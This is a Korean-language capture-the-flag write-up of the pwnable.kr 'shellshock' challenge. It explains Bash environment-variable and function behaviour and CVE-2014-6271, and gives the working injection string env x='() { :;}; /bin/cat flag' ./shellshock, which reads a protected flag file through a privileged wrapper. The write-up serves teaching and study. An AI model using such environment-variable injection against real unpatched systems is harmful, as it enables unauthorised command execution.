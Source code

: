 * Shellshock 라는 CVE-2014-6271를 사용하는 문제이다
* Bash shell에 40년동안 존재해온 취약점이라고 한다. ㅎㄷㄷ

* Bash는 환경변수를 만들수 있다
~~~
shellshock@pwnable:~$ zxcv=333
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ env | grep zxcv
shellshock@pwnable:~$
~~~

* 그런데 위와 같이 하면 local variable로 세팅되서 현재 bash에서만 사용할 수 있다. 그래서 env명령에서도 안나온다

* sub-process에서도 해당 variable을 사용하게 하려면 export를 사용해야 한다

~~~
shellshock@pwnable:~$ export zxcv=333
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ env | grep zxcv
zxcv=333
shellshock@pwnable:~$ bash
shellshock@pwnable:~$ echo $zxcv
333
shellshock@pwnable:~$ exit
exit
shellshock@pwnable:~$
~~~

* bash는 환경변수로 함수를 만들 수도 있다 이런식으로
~~~
shellshock@pwnable:~$ foo() { echo hello; }
shellshock@pwnable:~$ foo
hello
~~~

* 함수를 만들때는 스페이스바를 잘 넣어야 한다 (bracket 주의)
~~~
shellshock@pwnable:~$ foo() {echo hello;}
-bash: syntax error near unexpected token `{echo'
~~~

* Bash의 동작 순서는 이렇다 (https://operatingsystems.tistory.com/entry/Shellshock-CVE20146271)
~~~
# Bash Process 동작 순서
a. Bash 실행
b. Bash 환경변수 초기화
c. Bash shell prompt 출력
d. 명령어 기다림
e. (명령어를 수행할 경우) 명령어를 문자열로 저장하여 해당 문자열 parsing 수행
f. parsing된 구조체를 이용하여 명령어 수행
~~~

* CVE-2014-6271 은 b. Bash 환경변수 초기화에 있는 문제이다

* 아래와 같이 넣었을때 vulnerable이라고 뜨면 그 bash는 취약한 것이다
~~~
​env x='() { :;}; echo vulnerable' bash -c "echo test"
~~~

* 저게 원래 해야 하는 일은 x에 '() { :;}; echo vulnerable' string을 넣고 난 다음 env에 x가 등록된 환경에서 bash -c "echo test" 하는거다. 정상적인 용례는 이렇다

~~~
vmware@ubuntu:~$ env zxcv='9999' bash -c "env | grep zxcv"
zxcv=9999
vmware@ubuntu:~$ env | grep zxcv

vmware@ubuntu:~$
~~~

* 참고로 "env | grep zxcv" 안하고 그냥 echo zxcv 하면 아무것도 안뜬다... 왜냐하면 shell은 getenv/setenv/putenv 잘 안쓰고 자기들이 자체적으로 가져오기 때문이다. 안에서도 제대로 가져오도록 하려면 export로 등록해야 한다

* 변수로 등록했는데 함수처럼 쓸수 있다. 다시 말해 export로 등록했는데 함수처럼 쓸수 있다. 그래서 이런게 가능하다

* 다시 이걸로 돌아와서
~~~
​env x='() { :;}; echo vulnerable' bash -c "echo test"
~~~

* 취약한 shell은 이렇게 뜬다
~~~
shellshock@pwnable:~$ env x='() { :;}; echo vulnerable' ./bash -c "echo test"
vulnerable
test
~~~
* ./bash 한 이유는 shellshock의 local에 있는 bash만 vulnerable 하니까...
* vulnerable은 parent shell이 아니라 ./bash -c로 실행된 child bash에서 실행된거다. 다시 말해 bash가 뜨자마자 echo vulnerable을 해주고 나서 echo test해 준 것이다
* **취약점의 핵심은 이와 같이 변수로 지정된 환경변수가 shell실행시 함수로 해석되어 초기화 될때 실행이 된다는 점이다**

* env help를 보면 이렇게 되어 있다
~~~
shellshock@pwnable:~$ env --help
Usage: env [OPTION]... [-] [NAME=VALUE]... [COMMAND [ARG]...]
Set each NAME to VALUE in the environment and run COMMAND.

Mandatory arguments to long options are mandatory for short options too.
  -i, --ignore-environment  start with an empty environment
  -0, --null           end each output line with NUL, not newline
  -u, --unset=NAME     remove variable from the environment
      --help     display this help and exit
      --version  output version information and exit

A mere - implies -i.  If no COMMAND, print the resulting environment.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/env>
or available locally via: info '(coreutils) env invocation'
~~~

* 그러므로 
~~~
env x='() { :;}; /bin/cat flag' ./shellshock
~~~
* 이렇게 하면 환경변수 x에 '() { :;}; /bin/cat flag' 이 저장되는데, 이 환경변수를 가지고 실행되는 bash는 이것을 함수로 해석하여 초기화 할때 실행시켜준다.

* shellshock를 보면 이렇게 생겼다
~~~
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
~~~

* 즉 bash 실행시 초기화 과정에서 함수로 실행될 취약점이 있는 상태에서, 고맙게도 setresuid, setresgid하고 system을 통해 "/home/shellshock/bash -c 'echo shock_me'" 를 해 주는거다.

* 요점은 취약점을 공략하는 있는 환경변수가 등록된 채 setgid를 걸고 bash를 실행시킨다는 것

* 결과는 이렇다
~~~
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
~~~

* Segmentation fault가 왜 나는지는 잘 모르겠다...